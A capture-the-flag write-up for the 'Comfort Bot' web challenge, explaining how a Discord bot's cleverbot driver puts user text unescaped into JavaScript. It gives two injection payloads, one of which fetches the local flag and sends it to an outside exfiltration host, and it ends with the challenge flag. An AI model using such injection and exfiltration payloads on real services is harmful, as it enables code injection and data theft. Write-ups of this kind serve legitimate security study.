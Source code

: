 # Comfort Bot (Web 432, 39 solves)

We're given the source code of a Discord bot. The code is decently big, but since the the description says `Note: flag is at localhost/flag` we know we're looking for something that results in SSRF (opening of a connection based on user input or RCE in general).
The first instance I ran across was `responseEngines/cleverbot/driver.py`. The getCleverResponse inserts the `txt` argument unescaped into javascript to be run.

We first need to see how to trigger this code. Looking at bot.py, if we prefix our message with `!` it's called indirectly (though driver.py, which just verifies author ID != 0) on whatever input we want! We just need to write javascript that fetches the flag and sends it to our server.

```
!test');
fetch("http://localhost/flag").then(r=>r.text()).then(r=>fetch("https://seraphin.xyz/exfil?" + btoa(r)));
cleverbot.sendAI('
```

That sends an HTTP request with the flag as a base64-encoded query parameter to us.

After, I was curious if I could get the bot to reply with the flag... looks like yes :)
```
comf test');
fetch("http://localhost/flag").then(r=>r.text()).then(r=>window.cleverbot={"aistate":0,"reply":r});
console.log('
```

Flag: ``X-MAS{0h_J1nk135!!!Why_w0uld_y0u_br34k_our_commun4l_b07???125184ae}``